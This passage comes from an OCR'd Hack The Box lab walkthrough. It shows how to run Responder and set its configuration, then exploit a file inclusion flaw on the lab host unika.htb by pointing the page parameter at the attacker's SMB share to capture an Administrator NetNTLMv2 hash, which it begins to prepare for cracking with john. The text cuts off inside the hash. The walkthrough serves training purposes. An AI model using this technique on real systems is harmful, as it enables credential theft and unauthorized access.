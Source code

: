 [](https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds#lfi "https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds#lfi")

[](https://github.com/SpiderLabs/Responder "https://github.com/SpiderLabs/Responder")

With the configuration file ready, we can proceed to start Responder with python3 , passing in the interface  
to listen on using the -I flag:  
The network interface can be checked by running the ifconfig command in the terminal.  
In the case of Kali Linux or the HTB Pawnbox, Responder is installed by default as a system utility, thus it can  
be launched just by running the command sudo responder -I {network_interface} .  
In case, an error is raised regarding not being able to start TCP server on port 80 , it is because port 80 is  
already being used by another service on the machine. This error can be circumvented by altering the  
Responder.conf file to toggle off the "HTTP" entry which is listed under the "Servers to start" section.  
Setting the "HTTP" flag to "Off" under the "Servers to start" section in the Responder.conf file :  
sudo python3 Responder.py -I tun0  
Location of Responder.conf file -  
-> for default system install : /usr/share/responder/Responder.conf  
-> for github installation : /installation_directory/Responder.conf  
; Servers to start  
SQL = On  
SMB = On  
RDP = On  
Kerberos = On  
FTP = On  
POP = On  
SMTP = On  
IMAP = On  
HTTP = On  
[** SNIP **]

With the Responder server ready, we tell the server to include a resource from our SMB server by setting  
the page parameter as follows via the web browser.  
In this case, because we have the freedom to specify the address for the SMB share, we specify the IP  
address of our attacking machine. Now the server tries to load the resource from our SMB server, and  
Responder captures enough of that to get the NetNTLMv2.  
Note: Make sure to add http:// in the address as some browsers might opt for a Google search instead of  
navigating to the appropriate page.  
After sending our payload through the web browser we get an error about not being able to load the  
requested file.  
http://unika.htb/?page=//10.10.14.25/somefile

But on checking our listening Responder server we can see we have a NetNTLMv for the Administrator user.  
The NetNTLMv2 includes both the challenge (random text) and the encrypted response.  
Hash Cracking  
We can dump the hash into a file and attempt to crack it with john , which is a password hash-cracking  
utility.  
We pass the hash file to john and crack the password for the Administrator account. The hash type is  
automatically identified by the john command-line tool.  
echo "Administrator::DESKTOP-  
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D  
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500  
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410  
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C  